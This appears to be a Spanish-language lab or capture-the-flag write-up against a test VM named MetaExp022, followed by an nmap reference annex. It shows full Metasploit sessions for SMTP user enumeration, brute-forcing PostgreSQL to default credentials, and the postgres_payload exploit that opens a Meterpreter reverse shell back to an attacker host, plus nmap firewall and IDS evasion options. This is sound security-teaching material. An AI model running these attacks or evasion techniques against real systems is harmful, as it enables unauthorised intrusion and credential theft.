Enumera los usuarios locales de la máquina **MetaExp022** a través de algún protocolo sensible a enumeración de usuarios (SMTP) y describe el proceso que has seguido para conseguirlo. No puedes utilizar exploits. Muestra una tabla con los hallazgos y comenta su importancia desde el punto de vista del atacante.

Podemos hacer uso del módulo auxiliar `auxiliary/scanner/smtp/smtp_enum` del framework Metasploit.

- El módulo intentará enumerar usuarios enviando comandos `VRFY` y `EXPN` para cada nombre de usuario en el archivo especificado.
- Se mostrará una lista de usuarios encontrados si la máquina responde afirmativamente a dichos comandos.

```bash
msf6 > use auxiliary/scanner/smtp/smtp_enum
msf6 auxiliary(scanner/smtp/smtp_enum) > set RHOSTS 198.0.2.6RHOSTS => 198.0.2.6
msf6 auxiliary(scanner/smtp/smtp_enum) > set RPORT 25
RPORT => 25
msf6 auxiliary(scanner/smtp/smtp_enum) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/unix_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/unix_users.txt
msf6 auxiliary(scanner/smtp/smtp_enum) > run

[+] 198.0.2.6:25          - 198.0.2.6:25 Users found: colord, gropher, mail, popr, sshd, umountfsys
[*] 198.0.2.6:25          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

| Opción | Descripción |
|--------|-------------|
| `RHOSTS` | Dirección IP del objetivo a enumerar. |
| `RPORT` | Puerto del servicio SMTP (por defecto 25). |
| `USER_FILE` | Diccionario con los nombres de usuario a comprobar. |

La respuesta del módulo `smtp_enum` indica que el escaneo SMTP consiguió verificar la existencia de ciertos usuarios en el servidor objetivo (`198.0.2.6`), utilizando los comandos `VRFY` y/o `RCPT TO` internamente.

Los usuarios locales confirmados como existentes son: `colord, gropher, mail, popr, sshd, umountfsys`.

El módulo Metasploit probó cada usuario del archivo especificado (`/usr/share/metasploit-framework/data/wordlists/unix_users.txt`) preguntando al servidor si existía. Si el servidor respondió que el usuario sí existe, lo incluyó en la lista final. Finalmente, el escaneo se completó para la máquina especificada y el módulo terminó su ejecución.

> **Nota:** La enumeración de usuarios es muy valiosa para el atacante: conocer nombres de usuario válidos reduce drásticamente el espacio de búsqueda de un posterior ataque de fuerza bruta, ya que solo habría que adivinar la contraseña.

### Ejercicio 2 — Fuerza bruta contra PostgreSQL

Fase de descubrimiento de credenciales (fuerza bruta): para encontrar las credenciales, Metasploit tiene un módulo auxiliar (*auxiliary*) diseñado específicamente para escanear servicios de base de datos y probar contraseñas.

- Localiza el módulo de escaneo: utiliza el comando `search` dentro de `msfconsole` para encontrar un módulo auxiliar que realice ataques de fuerza bruta o inicio de sesión contra el servicio PostgreSQL (pista: busca por `scanner/postgres`).
- Selecciona y carga el módulo: una vez encontrado, cárgalo con el comando `use`.
- Configura las opciones esenciales: usa el comando `show options` para ver qué necesita el módulo. Debes configurar al menos tres parámetros clave:
  - `RHOSTS`: dirección IP de la víctima (ejemplo: `set RHOSTS 192.168.1.100`).
  - `RPORT`: puerto del servicio, normalmente 5432 (`set RPORT 5432`).
  - `USER_FILE` o `USERNAME` y `PASS_FILE` o `PASSWORD`: archivos de usuarios/contraseñas o valores concretos.
- Ejecuta el ataque: ejecuta el módulo con el comando `run`.
- Indica las credenciales (usuario y contraseña) del servidor PostgreSQL de la máquina «MetaExp022». Valida estas credenciales utilizando el módulo auxiliar.

```bash
msf6 > use auxiliary/scanner/postgres/postgres_login
[*] New in Metasploit 6.4 - The CreateSession option within this module can open an interactive session
msf6 auxiliary(scanner/postgres/postgres_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt
msf6 auxiliary(scanner/postgres/postgres_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt
msf6 auxiliary(scanner/postgres/postgres_login) > set RHOSTS 198.0.2.6
RHOSTS => 198.0.2.6
msf6 auxiliary(scanner/postgres/postgres_login) > set RPORT 5432
RPORT => 5432
msf6 auxiliary(scanner/postgres/postgres_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 198.0.2.6:5432 - LOGIN FAILED: :@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: :tiger@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: :postgres@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: :password@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: :admin@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: postgres:@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: postgres:tiger@template1 (Incorrect: Invalid username or password)
[+] 198.0.2.6:5432 - Login Successful: postgres:postgres@template1
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:tiger@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:postgres@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:password@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: scott:admin@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:tiger@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:postgres@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:admin@template1 (Incorrect: Invalid username or password)
[-] 198.0.2.6:5432 - LOGIN FAILED: admin:password@template1 (Incorrect: Invalid username or password)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Bruteforce completed, 1 credential was successful.
[*] You can open a Postgres session with these credentials and CreateSession set to true
[*] Auxiliary module execution completed
```

Como resultado hemos encontrado una credencial válida para el servidor PostgreSQL objetivo:

- **Usuario:** `postgres`
- **Contraseña:** `postgres`

> **Importante:** Credenciales válidas obtenidas para PostgreSQL en `198.0.2.6:5432` → `postgres:postgres`. Estas credenciales se reutilizarán en el siguiente ejercicio para lograr ejecución de código.

### Ejercicio 3 — Explotación de PostgreSQL y flag2

Utilizando un *exploit* de MSF y las credenciales (usuario y contraseña) obtenidas anteriormente para PostgreSQL, encuentra la `flag2` e indica su valor.

```bash
msf6 > use exploit/linux/postgres/postgres_payload
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
msf6 exploit(linux/postgres/postgres_payload) > set RHOST 198.0.2.6
RHOST => 198.0.2.6
msf6 exploit(linux/postgres/postgres_payload) > set RPORT 5432
RPORT => 5432
msf6 exploit(linux/postgres/postgres_payload) > set LHOST 198.0.2.4
LHOST => 198.0.2.4
msf6 exploit(linux/postgres/postgres_payload) > set USERNAME postgres
USERNAME => postgres
msf6 exploit(linux/postgres/postgres_payload) > set PASSWORD postgres
PASSWORD => postgres
msf6 exploit(linux/postgres/postgres_payload) > exploit

[*] Started reverse TCP handler on 198.0.2.4:4444
[*] 198.0.2.6:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] Uploaded as /tmp/QKvaYaFX.so, should be cleaned up automatically
[*] Sending stage (1017704 bytes) to 198.0.2.6
[*] Meterpreter session 1 opened (198.0.2.4:4444 -> 198.0.2.6:47791) at 2025-10-15 10:42:40 +0200

meterpreter > cat flag2.txt

----------------------------------------------------
   ** La desconfianza es la madre de la seguridad **

                    zero trust!
----------------------------------------------------
```

| Opción | Descripción |
|--------|-------------|
| `RHOST` | IP del objetivo con el servicio PostgreSQL. |
| `RPORT` | Puerto de PostgreSQL (5432). |
| `LHOST` | IP local del atacante donde escucha el *handler* de la reverse shell. |
| `USERNAME` / `PASSWORD` | Credenciales válidas obtenidas en el Ejercicio 2 (`postgres` / `postgres`). |

> **Importante:** Explotación exitosa. A través del módulo `postgres_payload` obtenemos una sesión Meterpreter como usuario del servicio PostgreSQL y recuperamos la `flag2`, cuyo valor es el texto: *"La desconfianza es la madre de la seguridad — zero trust!"*.

---

## ANEXO de nmap

### Descubrimiento de red con arp-scan

Antes de escanear puertos conviene descubrir qué hosts están activos en la red local. La herramienta `arp-scan` envía peticiones ARP a todo el segmento y es muy fiable en redes locales, ya que ARP no puede filtrarse fácilmente sin romper la conectividad.

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -I eth0 -l
Interface: eth0, type: EN10MB, MAC: 08:00:27:d3:0a:70, IPv4: 192.168.100.250
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.100.1   52:54:00:12:35:00       QEMU
192.168.100.2   52:54:00:12:35:00       QEMU
192.168.100.3   08:00:27:ca:1e:50       PCS Systemtechnik GmbH
192.168.100.6   08:00:27:a2:9f:c0       PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.957 seconds (130.81 hosts/sec). 4 respon
```

| Parámetro | Descripción |
|-----------|-------------|
| `-I eth0` | Interfaz de red por la que enviar las peticiones ARP. |
| `-l`, `--localnet` | Escanea toda la red local de la interfaz (según su IP y máscara). |

Como alternativa con `nmap`, un barrido de red sin sondeo de puertos (`-sn`) también permite descubrir hosts activos:

```bash
┌──(root㉿kali)-[~]
└─# nmap -sn 192.168.100.0/24
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-01 21:41 +0200
Nmap scan report for 192.168.100.1
Host is up (0.00036s latency).
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Nmap scan report for 192.168.100.2
Host is up (0.00025s latency).
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Nmap scan report for 192.168.100.3
Host is up (0.00017s latency).
MAC Address: 08:00:27:CA:1E:50 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.100.6
Host is up (0.00079s latency).
MAC Address: 08:00:27:A2:9F:C0 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.100.4
Host is up.
Nmap scan report for 192.168.100.250
Host is up.
Nmap done: 256 IP addresses (6 hosts up) scanned in 3.03 seconds
```

### Estados de un puerto

Al escanear un puerto, `nmap` lo clasifica principalmente en uno de estos tres estados:

| Estado | Descripción |
|--------|-------------|
| **Abierto** (*open*) | Hay una aplicación aceptando conexiones en ese puerto. Es el estado más interesante para un atacante. |
| **Cerrado** (*closed*) | El puerto es accesible (responde) pero no hay ninguna aplicación escuchando en él. |
| **Filtrado** (*filtered*) | `nmap` no puede determinar si el puerto está abierto porque un cortafuegos, filtro o regla de red bloquea las sondas. No se recibe respuesta o llega un error ICMP. |

> **Nota:** Además de estos tres, `nmap` maneja estados combinados menos frecuentes: *unfiltered* (accesible pero no se sabe si abierto o cerrado, típico de escaneos ACK), *open|filtered* (no se distingue entre abierto y filtrado, común en UDP) y *closed|filtered* (no se distingue entre cerrado y filtrado).

### Sondeo de puertos con nmap

**1. Escaneo básico por nombre o IP**

```bash
nmap scanme.nmap.org
nmap 192.168.1.1-3
nmap 192.168.1.1,4,22,100
nmap 192.168.1.1 192.168.1.2
nmap -iL lista.txt
```

Escanea el host o rango indicado para detectar puertos y servicios abiertos. Con `-iL lista.txt` se leen los objetivos desde un fichero.

**2. Escaneo con ping tipo ARP**

```bash
nmap 192.168.1.1-3 -PR
```

Usa ping ARP para descubrir hosts activos en la red local antes de escanear puertos.

**3. Ping TCP SYN a puerto (80 por defecto)**

```bash
nmap scanme.nmap.org -PS
nmap scanme.nmap.org -PS80
```

Envía un TCP SYN al puerto indicado para ver si el host responde y está activo.

**4. Ping TCP ACK a puerto**

```bash
nmap scanme.nmap.org -PA
```

Envía un TCP ACK para sondear el host; útil para evadir algunos filtros.

**5. Ping UDP a puerto**

```bash
nmap scanme.nmap.org -PU
```

Envía paquetes UDP al puerto indicado para determinar si el host está activo.

**6. Descubrimiento mediante ping ICMP echo**

```bash
nmap scanme.nmap.org -PE
```

No es recomendable como único método, ya que es sencillo desactivar la respuesta al *echo ping* (ICMP) en los equipos.

**7. Omitir el descubrimiento de hosts**

```bash
nmap scanme.nmap.org -PN
```

> **Nota:** `-PN` es un alias antiguo de `-Pn`. No sirve "para detectar puertos", sino para **omitir la fase de descubrimiento de host** y asumir que el objetivo está activo, procediendo directamente al escaneo de puertos. Es útil cuando el host bloquea los pings pero sí tiene servicios abiertos.

**8. Listar hosts sin escaneo (lista DNS)**

```bash
nmap 192.168.1.1-5 -sL
```

No realiza escaneo, solo lista las IPs o nombres DNS especificados.

**9. Descubrimiento de hosts sin sondeo de puertos**

```bash
nmap 192.168.1.1-5 -sn
nmap scanme.nmap.org -sn
```

Envía paquetes ping para detectar qué hosts están activos, sin escanear sus puertos o servicios.

**10. Escaneo SYN (Stealth Scan)**

```bash
nmap -sS 192.168.1.1
```

Envía paquetes TCP SYN para identificar puertos abiertos sin completar la conexión TCP completa. Es rápido y menos detectable.

**11. Escaneo de conexión TCP completa**

```bash
nmap -sT 192.168.1.1
```

Realiza el *handshake* TCP completo (3 pasos) en cada puerto, detectando puertos abiertos, pero es más detectable y lento que `-sS`.

**12. Escaneo ACK**

```bash
nmap -sA 192.168.1.1
```

Envía paquetes TCP ACK para detectar si los puertos están filtrados o no; útil para identificar reglas de firewall.

**13. Escaneo UDP**

```bash
nmap -sU 192.168.1.1
```

Escanea puertos UDP enviando datagramas UDP, para detectar servicios UDP activos, que suelen ser menos visibles que TCP.

**14. Escaneo Null**

```bash
nmap -sN 192.168.1.1
```

Envía paquetes TCP sin banderas activas (`flags=0`) para evadir firewalls básicos y detectar estados de puertos.

**15. Escaneo FIN**

```bash
nmap -sF 192.168.1.1
```

Envía paquetes TCP con solo la bandera FIN activa para evadir algunos filtros y determinar el estado del puerto según la respuesta.

**16. Escaneo Xmas**

```bash
nmap -sX 192.168.1.1
```

Envía paquetes TCP con las banderas FIN, PSH y URG activas (como un árbol de Navidad) para evadir firewalls simples y descubrir puertos.

> **Nota:** Estos comandos permiten controlar el tipo y el alcance del escaneo que `nmap` realiza, desde listar simples objetivos o hacer un ping para descubrir hosts, hasta enviar paquetes específicos para burlar firewalls o detectar sistemas activos. Es muy interesante ver la captura de los diferentes paquetes con Wireshark.

### Especificación de puertos con nmap

**1. Escanear un puerto específico**

```bash
nmap -p 80 192.168.1.100
```

Escanea el puerto TCP 80 (HTTP) del host indicado para ver si está abierto y qué servicio corre.

**2. Escanear un rango de puertos**

```bash
nmap -p 20-200 192.168.1.100
```

Escanea los puertos del 20 al 200 para detectar cuáles están abiertos.

**3. Escanear puertos TCP y UDP específicos**

```bash
nmap -p T:21,80,U:53,123 192.168.1.100
```

Escanea puertos TCP 21 y 80 y puertos UDP 53 y 123. Se deben usar junto con opciones de escaneo TCP (`-sS`, etc.) y UDP (`-sU`).

**4. Escanear puertos por servicio (ejemplos HTTP y HTTPS)**

```bash
nmap -p 80,443 192.168.1.100
```

Escanea los puertos 80 (HTTP) y 443 (HTTPS) para ver si los servicios web están disponibles.

**5. Escaneo de todos los puertos**

```bash
nmap -p- 192.168.1.100
```

Escanea todos los puertos posibles (1 a 65535). Útil para un análisis exhaustivo pero más lento. Con `-p` se controla explícitamente qué puertos se van a escanear, lo que permite enfocar el análisis y reducir tiempo o abarcar todo el rango disponible.

**6. Escanear los 100 puertos más comunes**

```bash
nmap -F 192.168.1.100
nmap --top-ports 100 192.168.1.100
```

Escanea un número reducido de puertos (los más comunes, por defecto 100) en lugar de todos, para hacer un escaneo rápido y eficaz en menor tiempo. Con `--top-ports N` se indica el número de puertos más frecuentes a comprobar; añadiendo `--open` solo se muestran los abiertos.

**7. Escanear los puertos en orden secuencial**

```bash
nmap -r 192.168.1.100
```

Escanea los puertos en orden secuencial, no aleatorio (que es el comportamiento por defecto), lo que puede ser útil en ciertos entornos.

**8. Excluir puertos del escaneo**

```bash
nmap 192.168.1.100 --exclude-ports 80,443,22
```

Excluye los puertos especificados del escaneo, útil si se sabe que esos puertos están bloqueados o no se quiere gastar tiempo en ellos.

Un ejemplo combinado habitual es escanear **todos** los puertos con conexión completa, sin resolución DNS (`-n`), en modo verboso (`-v`) y mostrando solo los abiertos (`--open`):

```bash
┌──(root㉿kali)-[~]
└─# nmap -p- -sT -n -v --open 192.168.100.6
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-01 21:27 +0200
Happy 29th Birthday to Nmap, may it live to be 129!
Initiating ARP Ping Scan at 21:27
Scanning 192.168.100.6 [1 port]
Completed ARP Ping Scan at 21:27, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 21:27
Scanning 192.168.100.6 [65535 ports]
Discovered open port 80/tcp on 192.168.100.6
Discovered open port 21/tcp on 192.168.100.6
Completed Connect Scan at 21:27, 9.65s elapsed (65535 total ports)
Nmap scan report for 192.168.100.6
Host is up (0.00092s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
MAC Address: 08:00:27:A2:9F:C0 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 9.78 seconds
           Raw packets sent: 1 (28B) | Rcvd: 1 (28B)
```

Un escaneo de reconocimiento muy completo combina escaneo SYN, scripts por defecto (`-sC`), detección de versión (`-sV`), una tasa mínima de paquetes alta (`--min-rate 5000`) y máxima verbosidad:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.100.6
```

### Plantillas de temporizado

La opción `-T` controla la velocidad y la agresividad del escaneo mediante seis plantillas predefinidas. Cuanto mayor es el número, más rápido y "ruidoso" (detectable) resulta el escaneo.

```bash
nmap -p 22 -T4 192.168.100.10
```

| Plantilla | Nombre | Descripción |
|-----------|--------|-------------|
| `-T0` | Paranoid | Extremadamente lento; pensado para evadir IDS. |
| `-T1` | Sneaky | Muy lento y sigiloso. |
| `-T2` | Polite | Lento; reduce la carga sobre la red. |
| `-T3` | Normal | Comportamiento por defecto. |
| `-T4` | Aggressive | Rápido; recomendado en redes locales fiables. Más ruidoso. |
| `-T5` | Insane | El más rápido; puede perder precisión y es muy detectable. |

### El escaneo SYN en detalle

El escaneo SYN (`-sS`) es el modo por defecto de `nmap` y funciona de la siguiente forma:

```bash
nmap -p- -sS 192.168.100.10
```

1. **Envío (SYN):** Nmap envía un paquete inicial con la bandera SYN al puerto objetivo, como si quisiera iniciar una conexión normal.
2. **Respuesta (SYN/ACK):** si el puerto está abierto, el servidor responde con un paquete SYN/ACK, indicando que está listo para la conexión.
3. **Interrupción (RST):** aquí está la clave. En lugar de enviar el ACK final para completar el *handshake*, Nmap envía inmediatamente un paquete RST (*Reset*), abortando la conexión antes de que se complete.

> **Nota:** Como el *handshake* de tres pasos nunca se completa, muchas aplicaciones y sistemas de registro no llegan a anotar la conexión, de ahí que a `-sS` se le llame "escaneo sigiloso" (*stealth scan*).

### Evasión de firewalls e IDS

Nmap ofrece varias técnicas para intentar burlar cortafuegos y sistemas de detección de intrusiones. Estas opciones se emplean sobre un objetivo concreto (aquí `192.168.100.10`):

```bash
nmap -p22 -T4 -f 192.168.100.10
nmap -p22 -T4 --mtu 160 192.168.100.10
nmap -p22 -D 192.168.100.15,192.168.100.20 192.168.100.10
nmap -p22 --source-port 80 192.168.100.10
nmap -p22 --spoof-mac 00:11:22:33:44:55 192.168.100.10
nmap -p22 --data-length 200 192.168.100.10
```

| Parámetro | Descripción |
|-----------|-------------|
| `-f` | Fragmenta los paquetes para dificultar su inspección por parte de firewalls e IDS. |
| `--mtu 160` | Fija un tamaño máximo de fragmento (debe ser múltiplo de 8). Es una fragmentación más controlada que `-f`. |
| `-D 192.168.100.15,192.168.100.20` | *Decoys* (señuelos): mezcla el escaneo real con paquetes falsificados desde otras IPs para ocultar el origen verdadero. |
| `--source-port 80` | Falsifica el puerto de origen (p. ej. 80) para aprovechar reglas de firewall que confían en puertos concretos. |
| `--spoof-mac 00:11:22:33:44:55` | Falsifica la dirección MAC de origen. |
| `--data-length 200` | Añade bytes aleatorios de relleno a los paquetes para alterar su firma y evadir detección basada en tamaño. |

### Captura de tráfico con tcpdump y Wireshark

Durante un escaneo resulta muy instructivo capturar el tráfico generado para analizarlo después. Con `tcpdump` guardamos la captura en un archivo `.cap` que luego podemos abrir con Wireshark para ver el contenido de los paquetes.

```bash
┌──(root㉿kali)-[~]
└─# tcpdump -i eth0 -v -w /tmp/captur.cap
```

| Parámetro | Descripción |
|-----------|-------------|
| `-i eth0` | Interfaz de red desde la que capturar el tráfico. |
| `-v` | Modo verboso; muestra más detalle de cada paquete. |
| `-w /tmp/captur.cap` | Escribe la captura en el archivo indicado (formato pcap). |

> **Nota:** Podemos capturar el tráfico con `tcpdump` creando un archivo y abriéndolo después con Wireshark para inspeccionar el contenido. Es una forma excelente de visualizar cómo se comportan los distintos tipos de escaneo (SYN, ACK, FIN, etc.) a nivel de paquete.

### Uso de scripts NSE

El motor de scripts de Nmap (NSE) permite ejecutar scripts que amplían enormemente sus capacidades (detección de vulnerabilidades, fuerza bruta, enumeración, etc.). Primero podemos localizar los scripts disponibles en el sistema:

```bash
┌──(root㉿kali)-[~]
└─# updatedb
                                                                                                                          
┌──(root㉿kali)-[~]
└─# locate .nse
/usr/share/exploitdb/exploits/hardware/webapps/31527.nse
/usr/share/exploitdb/exploits/multiple/remote/33310.nse
/usr/share/legion/scripts/nmap/shodan-api.nse
/usr/share/legion/scripts/nmap/shodan-hq.nse
...
```

Podemos escoger un script en concreto a usar. Para probarlo, levantamos un pequeño servidor web local con un directorio `admin`:

```bash
┌──(root㉿kali)-[/tmp/prueba]
└─# mkdir /tmp/prueba && mkdir /tmp/prueba/admin && cd /tmp/prueba && python3 -m http.server 8000
```

A continuación lanzamos el script `http-enum`, que enumera directorios y ficheros interesantes en un servidor web:

```bash
┌──(root㉿kali)-[~]
└─# nmap -p8000 -script http-enum -n -v 192.168.100.250
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-01 22:49 +0200
Happy 29th Birthday to Nmap, may it live to be 129!
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 22:49
Completed NSE at 22:49, 0.00s elapsed
Initiating SYN Stealth Scan at 22:49
Scanning 192.168.100.250 [1 port]
Discovered open port 8000/tcp on 192.168.100.250
Completed SYN Stealth Scan at 22:49, 0.02s elapsed (1 total ports)
NSE: Script scanning 192.168.100.250.
Initiating NSE at 22:49
Completed NSE at 22:49, 8.56s elapsed
Nmap scan report for 192.168.100.250
Host is up (0.00012s latency).

PORT     STATE SERVICE
8000/tcp open  http-alt
| http-enum: 
|_  /admin/: Possible admin folder
```

> **Nota:** Los scripts NSE están escritos en el lenguaje **Lua**, por lo que también es posible crear scripts propios y personalizados para tareas específicas de reconocimiento o explotación.

### Opciones adicionales útiles

Algunas opciones de uso frecuente que se pueden combinar con los escaneos anteriores:

| Parámetro | Descripción |
|-----------|-------------|
| `-v` / `-vv` / `-vvv` | Aumenta el nivel de detalle de la salida (verbosidad); a más `v`, más información en tiempo real. |
| `-A` | Escaneo agresivo: combina detección de SO (`-O`), versión de servicios (`-sV`), scripts por defecto (`-sC`) y `traceroute`. |
| `-n` | No realiza resolución DNS inversa, acelerando el escaneo. |
| `-T4` | Plantilla de temporizado agresiva: más rápida y ruidosa (ver [Plantillas de temporizado](#plantillas-de-temporizado)). |
